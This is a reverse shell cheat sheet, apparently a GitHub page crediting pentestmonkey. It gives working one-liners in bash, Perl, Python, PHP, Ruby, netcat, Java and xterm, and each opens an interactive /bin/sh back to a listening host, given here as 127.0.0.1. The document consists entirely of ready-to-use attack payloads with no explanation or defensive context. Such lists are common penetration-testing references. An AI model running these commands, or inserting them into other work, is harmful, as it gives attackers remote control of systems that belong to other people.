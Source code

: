 ># ___Reverse Shell Cheat Sheet___

> # _Reference [ pentestmonkey ](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)_

---

#  _BASH_
```bash
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1
```

# _PERL_
```bash
perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# _PYTHON_
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# _PHP_
```bash
php -r '$sock=fsockopen("127.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
# _RUBY_
```bash
ruby -rsocket -e'f=TCPSocket.open("127.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# _NETCAT_
```bash
nc -e /bin/sh 127.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f
```
# _JAVA_
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/127.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
# _XTERM_

```bash
xterm -display 127.0.0.1:1

Xnest :1

xhost +targetip
```

